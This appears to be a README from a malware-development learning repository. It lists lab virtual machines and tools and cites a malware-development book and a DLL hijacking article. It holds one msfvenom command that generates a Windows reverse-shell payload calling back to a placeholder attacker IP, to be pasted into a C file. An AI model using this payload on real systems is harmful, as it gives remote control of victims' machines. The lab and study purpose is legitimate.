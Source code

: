 # Tools
- [Process Hacker](https://processhacker.sourceforge.io/)
- Kali VM 
- Windows 11 VM
- Parrot 

# Common Commands
1.
# Before getting started
You might need to generate the payload in `Kali`.
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<YOUR_IP_ADDR> LPORT=4444 -f c
```
![payload](./Screenshots/01.png)

Copy and paste the payload in `hack1.c`.


# References
- Most of codes are from [Malware-Development-for-Ethical-Hackers
](https://github.com/PacktPublishing/Malware-Development-for-Ethical-Hackers) by Zhassulan Zhussupov, 2024.
- [DLL Hijacking Basics](https://medium.com/@zapbroob9/dll-hijacking-basics-ea60b0f2a1d8) by Enes Adışen, 2023.

